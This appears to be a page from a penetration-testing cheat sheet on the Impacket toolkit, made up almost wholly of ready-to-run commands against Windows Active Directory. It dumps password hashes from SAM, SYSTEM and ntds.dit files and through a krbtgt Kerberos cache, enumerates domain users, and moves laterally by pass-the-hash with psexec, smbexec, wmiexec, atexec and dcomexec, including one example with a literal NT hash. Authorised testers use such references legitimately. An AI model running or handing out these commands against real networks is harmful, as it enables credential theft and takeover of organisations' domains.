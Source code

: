 ```yaml
---
title: "Impacket"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```



- Password must be change smb:
```bash
smbpasswd -r $domain -U '$user'
```

- Extract password from SAM & SYSTEM :
```sh
secretsdump.py -sam SAM.SAV -system SYSTEM.SAV LOCAL
```

- Extract hash from ntds.dit : 
```sh
secretsdump.py -ntds ntds.dit -system SYSTEM.SAV LOCAL
```
- Dump hash with Ccache of krbtgt :
```sh
export KRB5CCNAME=DC1\$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache 
secretsdump.py -k DC1.delegate.vl
```

- Enumerate RPC : 
```sh
samrdump.py <domain>/<username>:<password>@<target_IP>
```
- Enumerate domain user :
```sh
GetADUsers.py -all pentesting.local/ippsec:Password12345 -dc-ip 192.168.10.50
```

- Lateral movement : 
```sh
psexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
smbexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
wmiexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
atexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
dcomexec.py -hashes 'LMhash:NThash' 'DOMAIN/USER@TARGET'
```

- Find the right  tool :
```sh
nxc smb 10.10.202.39 --use-kcache -x whoami
atexec.py -hashes ':a29542cb2707bf6d6c1d2c9311b0ff02' 'ws01'/'Administrator'@'10.10.202.39' whoami
```